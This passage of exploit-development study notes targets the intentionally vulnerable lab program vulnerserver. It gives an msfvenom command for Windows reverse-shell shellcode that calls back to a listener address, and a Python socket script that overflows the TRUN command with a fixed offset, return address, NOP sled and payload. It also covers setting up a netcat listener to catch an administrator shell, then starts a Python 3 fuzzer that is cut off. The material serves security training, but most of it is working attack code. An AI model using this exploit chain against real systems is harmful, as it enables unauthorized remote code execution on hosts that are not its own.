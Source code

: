 	- we can see EIP is now controlled, we just need to generate shellcode

### Generating shellcode and gaining root
we will use msfvenom
```bash
#shellcode generation
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.20.131 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"

#copy and paste into our python script
```
- update python script
```python
import sys, socket

overflow = (PASTE GENERATED SHELLCODE)

shellcode = "A" * 2003 + "\xaf\x11\x50\x62" + "\x90" * 32 + overflow

try:
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect(('192.168.1.35',9999))
	s.send(('TRUN /.:/' + shellcode))
	s.close()
	
except:
	print "Error connecting to server"
	sys.exit()
```
- need to set up listener in kali
```bash
nc -nvlp 4444
```
- make sure vulnserver is running as admin
- in shellcode terminal, run script
```bash
gedit 2.py #make sure script is ready
./2.py #run
#check listener for shell
```
- in listener
```bash
whoami
#should be the administrator
```

# Exploit Development Using Python3 and Mona - Modern New Way 
❗️All of the above was done in Python 2 - which is deprecated, this is an update using Python3 

**Fuzzing**
```python
#!/usr/bin/python3
import sys, socket
from time import sleep

buffer = "A" * 100
  
while True:
	try:
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.connect(('192.168.4.104',9999))
		
		payload = "TRUN /.:/" + buffer
		
```